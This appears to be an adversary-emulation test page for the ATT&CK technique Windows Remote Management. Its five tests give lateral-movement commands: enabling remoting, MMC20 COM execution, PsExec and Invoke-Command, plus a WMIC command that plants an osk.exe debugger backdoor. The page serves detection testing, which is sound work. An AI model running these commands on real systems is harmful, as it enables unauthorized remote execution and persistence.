 # T1028 - Windows Remote Management
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1028)
<blockquote>Windows Remote Management (WinRM) is the name of both a Windows service and a protocol that allows a user to interact with a remote system (e.g., run an executable, modify the Registry, modify services). (Citation: Microsoft WinRM) It may be called with the <code>winrm</code> command or by any number of programs such as PowerShell. (Citation: Jacobsen 2014)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Enable Windows Remote Management](#atomic-test-1---enable-windows-remote-management)

- [Atomic Test #2 - PowerShell Lateral Movement](#atomic-test-2---powershell-lateral-movement)

- [Atomic Test #3 - WMIC Process Call Create](#atomic-test-3---wmic-process-call-create)

- [Atomic Test #4 - Psexec](#atomic-test-4---psexec)

- [Atomic Test #5 - Invoke-Command](#atomic-test-5---invoke-command)


<br/>

## Atomic Test #1 - Enable Windows Remote Management
Powershell Enable WinRM

**Supported Platforms:** Windows



#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 
```
Enable-PSRemoting -Force
```






<br/>
<br/>

## Atomic Test #2 - PowerShell Lateral Movement
Powershell lateral movement using the mmc20 application com object

Reference:

https://blog.cobaltstrike.com/2017/01/24/scripting-matt-nelsons-mmc20-application-lateral-movement-technique/

**Supported Platforms:** Windows


#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| computer_name | Name of Computer | string | computer1|


#### Attack Commands: Run with `command_prompt`! 
```
powershell.exe [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.application","#{computer_name}")).Documnet.ActiveView.ExecuteShellCommand("c:\windows\system32\calc.exe", $null, $null, "7")
```






<br/>
<br/>

## Atomic Test #3 - WMIC Process Call Create
Utilize WMIC to start remote process

**Supported Platforms:** Windows


#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| user_name | Username | String | DOMAIN\Administrator|
| password | Password | String | P@ssw0rd1|
| computer_name | Target Computer Name | String | Target|


#### Attack Commands: Run with `command_prompt`! 
```
wmic /user:#{user_name} /password:#{password} /node:#{computer_name} process call create "C:\Windows\system32\reg.exe add \"HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\osk.exe\" /v \"Debugger\" /t REG_SZ /d \"cmd.exe\" /f"
```






<br/>
<br/>

## Atomic Test #4 - Psexec
Utilize psexec to start remote process

**Supported Platforms:** Windows


#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| user_name | Username | String | DOMAIN\Administrator|
| password | Password | String | P@ssw0rd1|
| computer_name | Target Computer Name | String | Target|


#### Attack Commands: Run with `command_prompt`! 
```
psexec \\#{computer_name} -u #{user_name} -p #{password} -s cmd.exe
```






<br/>
<br/>

## Atomic Test #5 - Invoke-Command
Execute Invoke-command on remote host

**Supported Platforms:** Windows


#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| host_name | Remote Windows Host Name | String | Test|
| remote_command | Command to execute on remote Host | String | ipconfig|


#### Attack Commands: Run with `powershell`! 
```
invoke-command -ComputerName #{host_name} -scriptblock {#{remote_command}}
```






<br/>
